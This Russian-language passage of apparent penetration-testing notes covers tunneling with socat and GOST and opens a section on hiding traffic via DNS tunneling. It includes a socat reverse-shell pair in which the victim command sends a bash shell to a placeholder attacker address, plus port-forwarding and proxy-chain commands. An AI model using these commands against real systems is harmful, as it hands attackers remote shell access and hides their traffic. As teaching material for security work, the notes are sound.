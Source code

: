 ### **Socat**
[tunneling-and-port-forwarding#ssl-socat-tunnel](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#ssl-socat-tunnel)
Как мы уже сказали, _socat_ — это полноценный прокси для двунаправленной передачи данных между двумя независимыми каналами данных. Помимо того, что socat умеет пробрасывать трафик используя p2p, он также может служить bind/reverse шеллом, SSL-туннелем, конвейером для передачи данных из сети в устройства и т.п. Это крайне гибкий многофункциональный инструмент ретрансляции.

> _Пример_ — _P2P форвардинг на “джамп” сервере:_  
> `socat TCP4-LISTEN:<lport>,fork TCP4:<redirect_ip>:<rport> &`, где:
> 
> - lport — порт, который будет открыт на узле, где запущен socat
> - redirect_ip — адрес, куда будет направлен трафик с узла
> - rport — адрес порта, куда будет отправлен трафик с порта lport

> _Пример обратного шелла:_  
>   
> ``attacker > socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0`` — поднимает сокет 1337 и берет / кладет туда данные в режиме терминала
> 
> `victim > socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane` — присоединяется к сокету по адресу атакующего и отправляет все данные из него на исполнение

### **GOST**

GO Simple Tunnel не сильно отличается по возможностям от предыдущей утилиты, но имеет более простой синтаксис правил. Также язык разработки GO упрощает компиляцию исполняемого файла под заданную ОС.

> **_Стандартные примеры использования:_**
> 
> _Стандартный HTTP/SOCKS5 прокси:_  
> `gost -L=:8080`
> 
> _Прокси с аутентификацией:_  
> `gost -L=admin:123456@localhost:8080`

  
**Режим цепочки прокси:**

![[Pasted image 20240409144850.png]]

- Прокси сервер_:_ `gost -L=socks://:1080`
- Прокси клиент: `gost -L=:8080 -F=socks://server_ip:1080`
## Использование внешних утилит для скрытия трафика

Утилиты сокрытия трафика и обхода ограничений используют нестандартные протоколы, такие, как DNS и ICMP, позволяя **обойти блокировки или скрыть факт передачи данных.**

### **DNS-туннелирование**

**DNS-туннелирование (DNS Tunneling)** — это метод использования DNS-протокола для передачи данных между компьютерами в  
сети.
